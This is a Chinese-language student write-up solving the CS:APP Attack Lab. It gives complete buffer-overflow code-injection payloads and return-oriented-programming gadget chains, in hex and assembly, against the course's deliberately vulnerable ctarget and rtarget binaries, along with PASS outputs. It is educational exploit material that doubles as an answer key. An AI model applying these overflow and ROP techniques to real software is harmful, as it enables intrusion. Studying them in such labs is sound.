



# Attack Lab记录

<p style="text-align:right;">by TomatoEater<br>2021年10月</p>

## 0. 准备

我们要对ctarget和rtarget进行一共五次的攻击，让其中的test()函数不再正常返回，这里就是不再输出`"No exploit. Getbuf returned 0x1\n"`了，test()函数原型如下：

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

如何做到这一点，突破口在其中的getbuf()函数：


```c
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

而getbuf()函数的关键在于：get()函数是不检查缓存区大小的。比如：我向a[5]读入5个数据，最后一个数据就产生了缓存区溢出。于是就有了两种攻击的方法：

- 代码注入攻击（code injection attack）：在栈帧中注入代码，再修改返回地址去执行这些代码。
- ROP攻击（retrun-oriented programmming）：基于代码复用技术的攻击，攻击者从已有的库或可执行文件中提取指令片段，构建恶意代码。

由于1）栈随机化使得程序每次运行时栈的地址都不相同，从而我们无法得知我们注入的攻击代码的地址；2）标记内存中的栈段为不可执行，从而注入在栈中的代码无法被程序执行。所以代码注入攻击有其局限性。

于是，ctarget要求我们利用代码注入攻击进入touch1、2、3这三个函数。而rtarget虽然也要进入touch2和touch3，但是由于防护措施我们需要采用ROP攻击。

***


## 1. 代码注入攻击

大体思路是：通过缓存区溢出修改ret的地址，使程序运行我们在栈帧中写的攻击代码。

### 1.1 Level 1

level1只要求我们进入touch1函数，不需要代码注入，touch1()源码给出如下~~（虽然并无用）~~：

```c
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

查看getbuf和touch1的汇编有：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

getbuf函数分配了40字节的栈帧，那我们只要修改ret的地址就可以完成攻击。ret的地址为touch1的地址，也就是0x4017c0。根据handout的提示，创建txt：

```
/* CI-L1.txt */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40字节随意填满栈帧 */
c0 17 40 00 00 00 00 00 /* touch1()地址，注意小端地址 */
```

再利用handout给出的hex2raw程序，将文本文件转换为二进制文件：

```bash
linux> ./hex2raw < CI-L1.txt > CI-L1-raw.txt
```

然后重定向输入到ctarget即可：

```bash
linux> ./ctarget -q < CI-L1-raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

*注意要输入-q参数，让电脑不去连接服务器（我们也没有服务器）*

### 1.2 Level 2

先记录一下如何注入代码。先是手写汇编example.s，然后gcc -c example.s生成example.o，再objdump -d example.o > example.d，最后整合一下即可。可以看Level3，写的比较详细。

level 2原来寻思着不难，没想到bug出了一些。对于这些bug我也只能做一点猜测。

touch2()源码和汇编给出如下：

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

可见在前去touch2函数的地址前，我们需要修改%rdi参数使其等于0x59b997fa（自学材料统一的cookie）。handout建议我们不要用jmp或者call而是用ret，那就姑且听handout的。首先在getbuf函数的0x4017ac处打断点，查看%rsp的值为0x5561dc78。接下来分享我尝试过的三种会产生segmentation fault的方法（然而这些答案在网上博主那可以PASS）：

**1）法一（fail）**

```
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi 这里就是address1 */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */ 
78 dc 61 55 00 00 00 00 /* 修改原先返回地址，前往address 1 */
ec 17 40 00 00 00 00 00 /* touch2 */
```

这个方法直接！执行顺序7->1->2->8行，先执行我们的注入代码，然后再ret到touch2的地址。然而我的输出为：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault! # why？
Better luck next time
FAIL: Would have posted the following:
··· # 被我省略了
```

可见我们成功进入了touch2并传入了正确的参数，但是产生了segmentation fault。是破坏了前面的栈帧？但是我又不返回调用者的栈帧了呀。我单步调试感觉是在call server的过程中出现了问题？是%rsp变量比正常高了八字节所以出了问题吗？

**2）法二（fail）**

```
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi 这里就是address1 */
48 c7 c4 98 dc 61 55 /* movq $0x5561dc98,%rsp */
c3 /* ret */
00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ec 17 40 00 00 00 00 00 /* touch2 */
78 dc 61 55 00 00 00 00 /* 前往address 1 */
```

执行顺序：7->1->2->3->6，但是产生同样的segmentation fault：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault! # why？
Better luck next time
FAIL: Would have posted the following:
··· # 被我省略了
```

这里是%rsp比正常低了八字节。莫非问题出在这？

**2）修改后的法二（correct）**

针对%rsp变量我写了这样的汇编准备注入：

```assembly
movq    $0x59b997fa, %rdi
movq    $0x5561dca0, %r11
movq    $0x4017ec, (%r11)
movq    %r11, %rsp
ret

```

这里我调整了%rsp使其与正常调用返回一致，均为$0x5561dca0，而之前两个方法分别是0x5561dc98和0x5561dca8。故有：

```
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi 这里就是address1 */
49 c7 c3 a0 dc 61 55 /* mov    $0x5561dca0,%r11 */
49 c7 03 ec 17 40 00 /* movq   $0x4017ec,(%r11) */
4c 89 dc	/* mov    %r11,%rsp */
c3 00 00 00 00 00 00 00 /* ret */
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* 前往address 1 */
```

然后就：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
··· # 被我省略了
```

很有意思的是，我发现%rsp为0x5561dca0、0x5561dcb0、0x5561dcc0、0x5561dcd0都可以PASS，然而0x5561dc98、0x5561dca8、0x5561dcb8、0x5561dcc8都会FAIL。不是很懂呢~

**3）法三（best）**

法三利用了push来漂亮地避免了%rsp在返回时不为0x5561dca0的情况。

```
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi 这里就是address1 */
68 ec 17 40 00 /* pushq  $0x4017ec */
c3 00 00 00 00 00 00 00 /* ret */
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 /* 前往address 1 */ 
```

上面这个答案可以成功PASS。这个做法巧妙保证了%rsp值与正常返回的值相同。

然而有个傻瓜把`pushq  $0x4017ec`写成了`pushq  0x4017ec`，结果转换为的二进制是`ff 34 25 ec 17 40 00`，而不是`68 ec 17 40 00`。这个答案会直接segmentation fault。他还去在Intel<a href="https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf">用户手册</a>的Vol. 2B 4-511中，发现push立即数的指令应当为0x68，而0xFF应当对应ModRM寻址模式，浪费了一个下午。。。不要问我怎么知道的！

### 1.3 Level 3

touch3()和相关的hexmatch()给出，为了节省篇幅没有给出汇编：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) { /* 查汇编有touch3地址0x4018fa */
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

这里要给touch3传入一个字符串的指针，然后调用hexmatch函数比较这个字符串与cookie是否相等。由于hexmatch的栈帧是覆盖getbuf栈帧的，所以在存放这个字符串的时候不能选择在getbuf的栈帧中。于是我们可以选择将字符串存在getbuf的父函数test之中。栈结构如下~~（excel真香）~~：



简单地理一下思路：

1. getbuf函数ret时，%rsp为0x5561dca0，%rip指向%rsp地址的内存0x5561dc78。ret完后%rsp为0x5561dca8。
2. 开始执行0x5561dc78处的代码：%rdi为cookie的指针；0x4018fa压入0x5561dca0地址，%rsp同时也为0x5561dca0
3. ret后%rip指向%rsp地址的内存0x4018fa，%rsp变成0x5561dca8，进入touch3

还是比较简单的。下面开始注入代码：

```assembly
# CI-L3.s
mov     $0x5561dca8,%rdi
pushq   $0x4018fa
ret

```

gcc编译生成CI-L3.o：

```bash
gcc -c CI-L3.s
```

objdump反编译：

```bash
objdump -d CI-L3.o > CI-L3.d
```

查看CI-L3.d文件：

```

CI-L3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   

```

查ASCII表，把0x59b997fa变成ASCII码有：`35 39 62 39 39 37 66 61 00`。注意后面加了00，是字符串的'\\0'含义。

整合有：

```
/* CI-L3.txt */
48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi 这里是address1*/
68 fa 18 40 00 /* pushq  $0x4018fa */
c3 /* retq */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address 1 */
35 39 62 39 39 37 66 61 /* cookie's ascii */
00 /* 结尾还有00勿忘 */
```

转换为二进制文件：

```bash
./hex2raw < CI-L1.txt > CI-L1-raw.txt
```

ATTACK！：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

丝滑！！！

***


## 2. ROP攻击



大体思路为：通过栈溢出修改ret的地址，将其指向原程序中gadget 1的代码，gadget1最后要有c3也就是ret，这样就可以去执行gadget2的代码了，依次类推完成攻击。

### 2.1 Level 2

这里就直接记录答案了。注意到在两个指令之间可以有nop，也就是0x90，nop（no operation）只有把PC增加一的功能。

| 值                     | 注释                                                   | 栈帧名 |
| :--------------------- | ------------------------------------------------------ | ------ |
| 0x4017ec               | touch2函数地址                                         | test   |
| 0x4019a2  or  0x4019c5 | gadget2的地址。movq %rax, %rdi + ret     48 89 c7 + c3 |        |
| 0x59b997fa             | cookie的值                                             |        |
| 0x4019cc or 0x4019ab   | gadget1的地址。popq %rax  +  ret   58 + c3             |        |
| 00...00                | 填满getbuf                                             | getbuf |

```assembly
# gadget1
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
  
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

```assembly
# gadget2
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
  
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

于是乎就出来答案了：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 填满getbuf栈帧 */
ab 19 40 00 00 00 00 00 /* gadget1的地址 */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* gadget2的地址 */
ec 17 40 00 00 00 00 00 /* touch2地址 */
```

### 2.2 Level 3

handout说，这次的attack只算一个credit，超出了课程的预期。于是我也就学习一下网上的做法，记录下来罢了。~~（就是懒吗）~~

栈帧如下：



八个gadget分别是：

```assembly
# gadget1: 48 89 e0, movq %rsp, %rax
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3  
```

```assembly
# gadget2: 48 89 c7，movq %rax, %rdi
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

```assembly
# gadget3: 58, popq %rax
00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
```

```assembly
# gadget4: 89 c2, movl %eax, %edx
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3    
```

```assembly
# gadget5: 89 d1, movl %edx, %ecx
0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq   
```

```assembly
# gadget6: 89 ce,  movl %ecx, %esi
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
```

```assembly
# gadget7: 直接用add_xy函数
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

```assembly
# gadget8: 48 89 c7, movq %rax, %rdi
<addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

值得注意的是，在gadget5中传入的是`89 d1 08 db c0`，我们虽然只需要89 d1作为`movl %edx, %ecx`，以及c0作为`ret`，但是中间的`08 db`编码是`orb %bl, %bl`，对寄存器没有任何影响。

于是答案有：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 0x28个0填满getbuf */
06 1a 40 00 00 00 00 00 /* gadget1 */
a2 19 40 00 00 00 00 00 /* gadget2 */
cc 19 40 00 00 00 00 00 /* gadget3 */
48 00 00 00 00 00 00 00 /* offset */
dd 19 40 00 00 00 00 00 /* gadget4 */
69 1a 40 00 00 00 00 00 /* gadget5 */
13 1a 40 00 00 00 00 00 /* gadget6 */
d6 19 40 00 00 00 00 00 /* gadget7 */
a2 19 40 00 00 00 00 00 /* gadget8 */
fa 18 40 00 00 00 00 00 /* touch3 */
35 39 62 39 39 37 66 61 00 /* cookie's ascii */
```

***


## 3. 写在后面

本人于2021/10/19完成了Attack Lab，耗时三天。不得不说Attack Lab相比Bomb Lab体量就小多了，但是还是颇为不错！

个人主要学习或强化了以下知识：

- 代码注入攻击和ROP攻击的实现
- 如何写一点汇编语言
- 汇编与二进制的对应关系

还有一点疑惑：

- 关于segmentation fault的产生。特别地，这里为什么在代码注入攻击时%rsp为`0x5561dca0、0x5561dcb0、0x5561dcc0、0x5561dcd0`都可以PASS，然而`0x5561dc98、0x5561dca8、0x5561dcb8、0x5561dcc8`都会segmentation fault。

关于栈随机地址，我通过观察rsp指针，发现ctarget的栈地址是固定的，而rtarget的栈地址是随机的。而ctarget和rtarget的函数们的地址都是固定的。之前有点小模糊。

预计接下来：

- 做Architecture Lab(Y86)
- 学习力学基础！
